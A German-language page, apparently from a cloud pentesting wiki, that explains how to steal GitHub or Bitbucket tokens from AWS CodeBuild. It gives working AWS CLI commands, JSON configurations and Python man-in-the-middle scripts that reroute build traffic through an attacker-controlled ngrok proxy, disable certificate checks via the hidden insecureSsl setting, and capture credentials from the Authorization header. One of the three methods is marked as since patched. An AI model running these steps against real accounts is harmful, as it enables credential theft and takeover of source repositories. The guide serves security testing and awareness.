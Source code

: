 # AWS Codebuild - Token Leakage

{{#include ../../../../banners/hacktricks-training.md}}

## Wiederherstellen von Github/Bitbucket konfigurierten Tokens

Zuerst überprüfen Sie, ob es Quellanmeldeinformationen gibt, die Sie möglicherweise leaken könnten:
```bash
aws codebuild list-source-credentials
```
### Via Docker-Image

Wenn Sie feststellen, dass die Authentifizierung zum Beispiel für Github im Konto eingestellt ist, können Sie **exfiltrieren** diesen **Zugang** (**GH-Token oder OAuth-Token**), indem Sie Codebuild dazu bringen, ein **bestimmtes Docker-Image** zu verwenden, um den Build des Projekts auszuführen.

Zu diesem Zweck könnten Sie **ein neues Codebuild-Projekt erstellen** oder die **Umgebung** eines bestehenden ändern, um das **Docker-Image** festzulegen.

Das Docker-Image, das Sie verwenden könnten, ist [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Dies ist ein sehr einfaches Docker-Image, das die **Umgebungsvariablen `https_proxy`**, **`http_proxy`** und **`SSL_CERT_FILE`** festlegt. Dies ermöglicht es Ihnen, den Großteil des Traffics des im **`https_proxy`** und **`http_proxy`** angegebenen Hosts abzufangen und das in **`SSL_CERT_FILE`** angegebene SSL-Zertifikat zu vertrauen.

1. **Erstellen und Hochladen Ihres eigenen Docker MitM-Images**
- Befolgen Sie die Anweisungen des Repos, um Ihre Proxy-IP-Adresse festzulegen und Ihr SSL-Zertifikat einzustellen und **das Docker-Image zu erstellen**.
- **SETZEN SIE NICHT `http_proxy`**, um keine Anfragen an den Metadaten-Endpunkt abzufangen.
- Sie könnten **`ngrok`** wie `ngrok tcp 4444` verwenden, um den Proxy zu Ihrem Host festzulegen.
- Sobald Sie das Docker-Image erstellt haben, **laden Sie es in ein öffentliches Repo hoch** (Dockerhub, ECR...).
2. **Umgebung festlegen**
- Erstellen Sie ein **neues Codebuild-Projekt** oder **ändern** Sie die Umgebung eines bestehenden.
- Stellen Sie das Projekt so ein, dass es das **zuvor generierte Docker-Image** verwendet.

<figure><img src="../../../../images/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Setzen Sie den MitM-Proxy in Ihrem Host**

- Wie im **Github-Repo** angegeben, könnten Sie etwas wie Folgendes verwenden:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
> [!TIP]
> Die **mitmproxy-Version, die verwendet wurde, war 9.0.1**, es wurde berichtet, dass dies mit Version 10 möglicherweise nicht funktioniert.

4. **Führen Sie den Build aus und erfassen Sie die Anmeldeinformationen**

- Sie können das Token im **Authorization**-Header sehen:

<figure><img src="../../../../images/image (273).png" alt=""><figcaption></figcaption></figure>

Dies könnte auch über die aws cli mit etwas wie
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
### Via insecureSSL

**Codebuild**-Projekte haben eine Einstellung namens **`insecureSsl`**, die im Web verborgen ist und nur über die API geändert werden kann.\
Wenn Sie dies aktivieren, kann Codebuild sich mit dem Repository **verbinden, ohne das von der Plattform angebotene Zertifikat zu überprüfen**.

- Zuerst müssen Sie die aktuelle Konfiguration mit etwas wie:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
- Dann kannst du mit den gesammelten Informationen die Projekteinstellung **`insecureSsl`** auf **`True`** aktualisieren. Das folgende ist ein Beispiel für meine Aktualisierung eines Projekts, beachte das **`insecureSsl=True`** am Ende (das ist das einzige, was du von der gesammelten Konfiguration ändern musst).
- Außerdem füge auch die Umgebungsvariablen **http_proxy** und **https_proxy** hinzu, die auf dein tcp ngrok zeigen, wie:
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
- Führen Sie dann das grundlegende Beispiel von [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) an dem Port aus, der durch die Proxy-Variablen (http_proxy und https_proxy) angegeben ist.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
- Schließlich klicken Sie auf **Build the project**, die **Anmeldeinformationen** werden **im Klartext** (base64) an den mitm-Port gesendet:

<figure><img src="../../../../images/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### ~~Über das HTTP-Protokoll~~

> [!TIP] > **Diese Schwachstelle wurde von AWS irgendwann in der Woche des 20. Februar 2023 (ich glaube am Freitag) behoben. Ein Angreifer kann sie also nicht mehr ausnutzen :)**

Ein Angreifer mit **erhöhten Berechtigungen in über einem CodeBuild könnte das Github/Bitbucket-Token** leaken, das konfiguriert ist, oder wenn die Berechtigungen über OAuth konfiguriert wurden, das **temporäre OAuth-Token, das zum Zugriff auf den Code verwendet wird**.

- Ein Angreifer könnte die Umgebungsvariablen **http_proxy** und **https_proxy** zum CodeBuild-Projekt hinzufügen, die auf seine Maschine zeigen (zum Beispiel `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../images/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../images/image (213).png" alt=""><figcaption></figcaption></figure>

- Dann ändern Sie die URL des Github-Repos, um HTTP anstelle von HTTPS zu verwenden, zum Beispiel: `http://github.com/carlospolop-forks/TestActions`
- Dann führen Sie das grundlegende Beispiel von [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) an dem Port aus, auf den die Proxy-Variablen (http_proxy und https_proxy) zeigen.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="0.0.0.0",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
- Klicken Sie als Nächstes auf **Build the project** oder starten Sie den Build über die Befehlszeile:
```sh
aws codebuild start-build --project-name <proj-name>
```
- Schließlich werden die **Anmeldeinformationen** im **Klartext** (base64) an den mitm-Port gesendet:

<figure><img src="../../../../images/image (159).png" alt=""><figcaption></figcaption></figure>

> [!WARNING]
> Jetzt kann ein Angreifer das Token von seiner Maschine aus verwenden, alle Privilegien auflisten, die es hat, und (miss)brauchen einfacher als die direkte Nutzung des CodeBuild-Dienstes.

{{#include ../../../../banners/hacktricks-training.md}}
